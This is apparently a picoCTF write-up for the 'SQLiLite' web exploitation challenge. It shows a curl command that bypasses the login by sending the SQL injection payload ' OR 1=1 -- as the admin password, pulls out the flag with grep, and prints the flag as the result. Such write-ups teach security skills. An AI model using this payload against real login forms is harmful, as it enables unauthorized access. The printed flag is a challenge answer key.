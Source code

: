 # [SQLiLite [Web Exploitation] [300 Points]](https://play.picoctf.org/practice/challenge/304?category=1&originalEvent=70&page=1) #

## Description ##
Can you login to this website?

Try to login here.

## Hints ##
1. `admin` is the user you want to login
   
## Solution ##

### Step 1: Description ###

![](images/webpage.png)

![](images/webpage_failed.png)

![](images/webpage_loggedin.png)

![](images/webpage_inspect.png)

    curl -s -d "username=admin&password=' OR 1=1 --" http://saturn.picoctf.net:49343/login.php | grep -oE "picoCTF{.*}" | tee >(xsel -b)


**Result**:

    picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
